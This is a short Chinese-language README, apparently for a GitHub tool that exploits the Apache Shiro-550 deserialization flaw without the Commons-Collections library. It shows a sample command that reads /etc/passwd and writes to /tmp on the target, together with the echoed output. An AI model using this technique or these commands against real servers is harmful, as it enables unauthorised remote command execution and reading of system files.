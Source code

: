# Shiro-550-with-NoCC

Shiro550 无Commons-collections依赖利用工具：

1. 使用Shiro自身利用链，不依赖Commons-collections库

2. 命令回显，依赖tomcat，支持tomcat7

3. 无限制命令执行，去除java命令执行不能使用管道和重定向符号的限制，如：

   ```shell
   cat /etc/passwd | grep root; echo 8416e1521a05a271074df8417177d090 > /tmp/1; cat 1
   ```

   ```shell
   root:x:0:0:root:/root:/bin/bash
   8416e1521a05a271074df8417177d090
   
    命令执行成功
   ```

# REFERENCE
https://www.leavesongs.com/PENETRATION/commons-beanutils-without-commons-collections.html

   
